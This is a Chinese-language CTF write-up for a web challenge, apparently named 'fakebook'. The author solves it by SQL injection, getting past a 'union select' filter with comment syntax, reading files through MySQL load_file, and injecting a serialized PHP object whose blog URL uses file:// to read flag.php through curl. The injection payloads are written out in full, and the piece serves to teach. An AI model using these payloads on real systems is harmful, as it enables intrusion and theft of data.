

题目描述：
无
题目解题：
进入页面
这里先login看看
老规矩先试试弱口令，测试一番没啥用，那就换思路，随便注册一个看看
这里也是注册了三个，以便测试，点击每个页面看看
感觉没啥利用的点，于是回到最初我们先扫一下网站
看到了flag.php，我还以为是真的，结果没啥用，那看看robots.txt
那我们访问之后发现了一份源码如下
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
| <?php
class UserInfo
{
public $name = "";
public $age = 0;
public $blog = "";
public function __construct($name, $age, $blog) //接受用户join的相关信息
{
$this->name = $name;
$this->age = (int)$age;
$this->blog = $blog;
}
function get($url) //主要是返回用户所输入的博客内容
{
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$output = curl_exec($ch);
$httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
if($httpCode == 404) {
return 404;
}
curl_close($ch);
return $output;
}
public function getBlogContents () //调用get函数
{
return $this->get($this->blog);
}
public function isValidBlog ()//利用正则判断博客格式是否正确，这里呢只需要.分隔开就可以
{
$blog = $this->blog;
return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
}
}
|
这里感觉有点模糊，没啥利用的点，返回页面看到url上有no参数，想到了sql，尝试一下
可以看到报错，说明的确存在，那我们就先手动测试一番
这里发现有四列
接着想查看数据库名
不出所料过滤了。。。。
那先手动fuzz，这里不出所料就是union select的过滤了，尝试一下双写，大小写，注释符看看
测试发现过滤的是“union select”这个字符串
这里发现第二列是回显位
接着看一下当前数据库名称与用户
这里常规说继续看表名列名来找flag，不过看了wp发现，这里又root身份，权限很高，那么可以利用mysql中的load_file函数。
1
| 允许访问系统文件，并将内容以字符串形式返回，不过需要的权限很高，且函数参数要求文件的绝对路径。//这巧了不是，条件全都有。
|
1
| view.php?no=-3 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#
|
找到flag。
接下来接着按常规思路看看
1
| ?no=-3 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook"# //爆表名
|

1
| ?no=-3 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name="users"# //爆列名
|
在这里data字段最可疑
1
| ?no=-3 union/**/select 1,group_concat(username,data),3,4 from users#
|
如图发现序列化字符串
接下来就不太会了，跟着wp走
接下来的东西，我认为需要猜。最开始时的用户页面no=1时，页面返回用户的用户名、密码、博客之类的消息。毫无疑问，页面是根据users表中no=1的这条数据，渲染的页面。因为回显，我们只证明了查询语句的第二个字段是username。其余三个字段并不明确，但我们可以猜测，应该和数据库表中的字段顺序相似。第四个字段应该就是data，而我们现在有一个现成的data数据，能否模拟下？
1
| ?no=-3 unionselect 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:8:"123.blog";}'
|
发现成功回显，并且这似乎是新建的，因为此前我并没有这一项数据，在看wp：
注意no现在的值为2，我们知道这个用户是不存在的。换而言之，原SQL语句的查询结果为空，而我们通过union加入了我们构造的查询语句，让SQL语句有了查询结果，并且此查询结果符合页面渲染要求，所以页面正常显示了。
大佬就是强，这思路很顶！！！
并且由此得知，只要有data字段的对象序列，就可以成功渲染页面，其他字段并不是很重要。（页面中age和blog的值，显然也都是从序列化的对象里面得到的），接下来就是让我迷的点，你修改对象序列里面的blog参数内容：
1
| s:4:"blog";s:29:"file:///var/www/html/flag.php";
|
用file伪协议读取flag内容交给blog参数，然后你再查看源码，iframe的src就发生了变化：
找到flag
接下来在看佬的思路：
1
2
3
4
5
| 回想刚刚的问题，如何想到的修改序列里面的blog参数呢？最开始blog参数值为123.blog，源码里iframe的src并没有什么变化。
个人认为，如果靶场想启发用户修改blog参数值，应当在blog值被修改后，源码里的src适当变化下，让用户知道，这个点可以使用。无论怎样换blog参数，src没有任何变化，就很难想到再跟进一步的利用伪协议去读取内容了。
当然，如果怪没有提示，也并不准确，因为有个点，我们还没用到。详细看最开始我们得到的备份文件：
|

1
2
3
4
| getBlogContent函数，我们猜也是个获取blog内容的函数。而其内部调用了我们一开始就说有问题的get函数，接受一个url，并将指定url的内容返回。换而言之，只要blog参数是可以请求到内容，返回不为404的，getBlogContents函数即有返回结果。毫无疑问，伪协议file就能达到要求。
那我们换个链接请求下呗：
?no=-3%20union/**/select%201,2,3,%27O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:26:"http://111.198.29.45:34016";}%27
|
就换成靶场最开始的主页。
查看源码：
这个图片没复现出来,不知为何,就先看个思路。
果不其然，将其base64转码，应该就能得到主页的源码了。
所以致此，我们可以总结下来。getBlogContents函数调用get函数，把unserinfo类中的blog参数当做一个URL，得到请求内容。而页面里iframe里的src根据得到的内容进行页面渲染。
正确的思路流程应当为，得到备份文件，明确getBlogContents函数通过一个URL获取内容，并且URL由类实例化对象的blog参数提供。然后在构造userinfo对象序列化发现页面可以正常返回之后，就尝试修改序列化中的blog参数，发现页面中iframe的src暴露信息，进而想到可以使用伪协议读取flag，并让src显示。
其实，在构造blog的时候，报错信息也一直在给予提示：
思路很顶，学到了
参考文章：
文章参考